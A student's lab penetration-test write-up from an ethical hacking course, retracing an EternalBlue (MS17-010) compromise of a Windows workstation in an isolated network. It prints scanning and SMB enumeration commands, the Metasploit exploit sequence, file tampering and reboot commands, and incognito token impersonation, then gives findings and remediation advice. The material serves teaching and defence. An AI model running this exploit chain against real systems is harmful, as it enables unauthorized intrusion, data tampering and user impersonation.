# EternalBlue (MS17-010) Exploitation: OpenTrolley Follow-Up

**Course:** C374 Ethical Hacking, Republic Polytechnic
**Type:** Greybox penetration test in an isolated lab, continuing the [OpenTrolley engagement](opentrolley-greybox-pentest.md)
**Tools:** Kali Linux, Nmap, `smbclient`, `rdesktop`, Nessus, Metasploit (`msfconsole`), Meterpreter, `incognito`

> Performed in a sandboxed, host-only network (`192.168.1.0/24`) built for coursework, per Republic Polytechnic's written disclaimer and the Computer Misuse and Cybersecurity Act. No real systems were involved.

## Scenario

OpenTrolley reported two issues with an admin staff member, Miss Teo Hak Liao: files on her shared folder were occasionally edited without her knowledge, and her workstation was rebooting randomly with an unexplained error.



As the penetration tester, working greybox (given only a shared `public` account, no admin credentials), my job was to retrace how an attacker could have caused both symptoms.

## Method

### 1. Recon and SMB enumeration
- Ran Nmap OS detection against the workstation and confirmed it was on an outdated, unpatched Windows build.
- Wrote `opScan.sh`, a script that SYN-scans the whole subnet and prints only live hosts with their open ports and service versions:
  ```bash
  nmap -sS -v -sV 192.168.1.0/24 -oG scanResults
  ```
- Wrote a second script, `onlyipScan.sh`, that filters the grepable output down to just the IPs with a chosen port open, using `grep` piped through two `cut` passes (split on `:` for the IP, then on `(` to drop the trailing text).
- Confirmed port **445 (SMB)** and **3389 (RDP)** were both open on the workstation.



- Enumerated SMB shares with the greybox `public` account:
  ```bash
  smbclient -L 192.168.1.40 -U 'public'
  smbclient \\\\192.168.1.40\\SharedDocs -U 'public'
  ```
  Found and downloaded `shareddocument.txt` from the `SharedDocs` share.




- Tried `rdesktop 192.168.1.40` directly — RDP was reachable, but still required Miss Teo's real credentials, so SMB access alone didn't explain how an attacker got full control. That pointed to a vulnerability-based entry rather than stolen credentials.



### 2. CVE research
- Reviewed how the CVE system works: MITRE assigns and maintains the CVE-ID list (funded by CISA); NIST's NVD adds CVSS severity scoring on top.
- Searched [cve.mitre.org](https://cve.mitre.org/cve/search_cve_list.html) for examples (Adobe RCE and stored-XSS entries) and cross-referenced a recent SingCERT advisory, to get comfortable reading and tracing a CVE-ID before using one in anger.



### 3. Vulnerability scanning with Nessus
- Started the Nessus service and ran a Basic Network Scan against the workstation's IP from the web UI (`https://localhost:8834`).
  ```bash
  sudo service nessusd start
  ```
- The scan returned a severity-ranked list of findings; the critical/high ones were reviewed in detail, including one permitting **arbitrary code execution** — an attacker running their own code on the target without authorisation.




### 4. Exploiting MS17-010 (EternalBlue)
- The Nessus scan flagged **MS17-010** (Microsoft's own bulletin ID; corresponds to **CVE-2017-0143 to CVE-2017-0148**), an SMBv1 flaw that lets a crafted packet trigger remote code execution on unpatched Windows hosts — matching the outdated OS found in step 1.
- In `msfconsole`:
  ```
  search ms17-010
  use exploit/windows/smb/ms17_010_psexec
  set RHOSTS 192.168.1.40
  set LHOST <kali_ip>
  set LPORT <port>
  exploit
  ```
- This dropped into a **Meterpreter** session — Metasploit's in-memory, encrypted-channel payload that gives interactive post-exploitation control without writing an executable to disk.



### 5. Post-exploitation: reproducing both reported symptoms
- **File tampering:** from a `shell` inside Meterpreter, navigated to the `SharedDocs` folder, viewed `shareddocument.txt` (`type`), then deleted and recreated it with new content — reproducing the "files edited without her knowledge" complaint exactly.

  

- **Random reboots:** ran `shutdown -r -t 20` (`-r` restart, `-t 20` a 20-second delay) on the target — reproducing the second complaint.

  

- **Privilege confirmation and token impersonation:** after re-establishing the session, confirmed `whoami` returned `NT AUTHORITY\SYSTEM`, then loaded the `incognito` extension to enumerate and steal a logged-in user's authentication token:
  ```
  load incognito
  list_tokens -u
  impersonate_token THLIAO\teohakliao
  ```
  `incognito` is what enables token listing and impersonation inside Meterpreter; `impersonate_token` adopts a captured token's security context directly, with no password needed. A final `shell` + `whoami` confirmed the session was now running as Miss Teo.




## Findings

| Finding | Impact |
|---|---|
| Unpatched Windows host, SMBv1 enabled (MS17-010 / EternalBlue) | Unauthenticated remote code execution — the actual root cause, not stolen credentials |
| Workstation doubling as an informal file server (open SMB share, weak access) | Confidential/shared files exposed to anyone who compromises the host |
| No patch cadence for "admin staff" machines (explicitly deprioritised by the company) | Known, years-old critical vulnerabilities left open |
| SYSTEM-level compromise enabled token theft | Attacker impersonated the legitimate user without ever knowing her password |

## Recommendations

1. Patch MS17-010 and disable legacy SMBv1 across the network.
2. Apply the same update cadence to admin/back-office machines as to any other endpoint — "admin staff, so no updates needed" was the root policy failure here.
3. Move ad-hoc file sharing off individual workstations and onto a managed file server with proper access control.
4. Monitor for the telltale post-exploitation signs: unexpected `shutdown` commands, out-of-hours file modifications, and `incognito`/token-impersonation activity (visible via Windows Security event IDs such as 4688 process creation and 4663 object access).
5. Enforce least privilege so a single compromised host can't yield a token for every logged-in user.

## What I learned

- How a single unpatched SMB vulnerability can fully explain two seemingly unrelated user complaints (file tampering and random reboots) once you retrace the attacker's actual steps.
- The practical difference between Nmap recon, Nessus vulnerability scanning and Metasploit exploitation — and how CVE/MS bulletin IDs connect all three.
- How Meterpreter's `incognito` extension turns SYSTEM-level access into full user impersonation without ever needing a password.
